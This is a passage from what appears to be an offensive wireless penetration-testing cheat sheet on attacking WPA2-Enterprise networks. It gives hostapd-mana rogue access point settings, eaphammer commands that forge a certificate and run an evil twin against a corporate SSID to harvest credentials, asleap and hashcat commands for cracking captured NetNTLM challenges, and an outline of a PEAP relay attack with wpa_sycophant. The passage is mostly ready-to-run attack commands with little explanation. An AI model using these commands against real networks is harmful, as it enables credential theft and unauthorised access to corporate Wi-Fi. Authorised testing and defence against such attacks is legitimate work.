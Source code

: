 ```
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
```

hostapd.eap.user
```
* PEAP,TTLS,TLS,MD5,GTC
"t" TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP "1234test" [2]
```

Cracking the NetNTLM challenge using **asleap** or **hashcat**.  
```
asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist 
./hashcat64.bin -a 0 -m 5500 hash.txt dictionary.txt -r rule.txt
```

##### Eaphammer
Create an identical fake certificate for authentication server.
```
./eaphammer --cert-wizard
```

Execute evil twin attack on channel 4 against CORPOWIFI SSID
```
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CORPOWIFI --creds
/eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CORPOWIFI --creds --negotiate weakest
```

Cracking the NetNTLM challenge using asleap
```
asleap -C 06:9b:40:83:37:90:fd:41 -R 27:63:33:83:e7:25:98:5e:6d:4f:ed:73:b9:c5:1a:cc:91:13:bc:f9:13:95:30:56 -W ../wordlists/100-common-passwords.txt
```

#### WPA2-EAP Relay
- https://sensepost.com/blog/2019/peap-relay-attacks-with-wpa_sycophant/
- https://sensepost.com/blog/2019/understanding-peap-in-depth/
- https://github.com/sensepost/wpa_sycophant
- https://www.youtube.com/watch?v=eYsGyvGxlpI

--> This attack need at least 2 interfaces (and 3 in case of deauthentication frame to be sent).  

1. Mana will pretend to be corporate AP
2. Supplicant (wpa_sycophant) retrieving the required information from mana to connect to the legitimate corporate AP.
